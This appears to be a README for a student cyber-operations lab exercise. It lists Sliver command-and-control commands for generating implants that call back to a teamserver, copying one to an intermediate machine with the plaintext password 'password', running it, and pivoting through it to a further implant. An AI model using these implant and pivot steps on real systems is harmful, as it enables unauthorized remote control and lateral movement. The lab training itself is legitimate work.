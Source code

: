 # Cyber Ops Unit Sliver Setup
All the commands and files needed to set up the exercise, reminder that this exercise will **not** work over the TAMU network (because we can't port forward without access to the routers) and will have to be done over hotspot, where everyone will (probably) be on the same subnet, meaning they can directly SSH to the first machine

Make sure to run `sudo systemctl start sliver.service` to get Sliver working

Commands used:\
Generate Sliver Implant: `generate --os linux --arch arm64 --name [Implant Name] --http [IP of Teamserver]`\
Copy over to Intermediate server: `scp [Implant Name] Intermediate@[IP of Intermediate Server]:/home/Intermediate/Documents` (Password is 'password')\ 
Run Implant: `./[Implant Name] &`\
View sessions: `sessions`\
Use the Implant: `use [session number]`\
Create a pivot through that implant: pivots tcp --lport [Pivot Port]\
Generate an implant for that pivot: `generate --os linux --arch arm64 --tcp-pivot [IP Address of Intermediate Server:[Pivot Port]`\
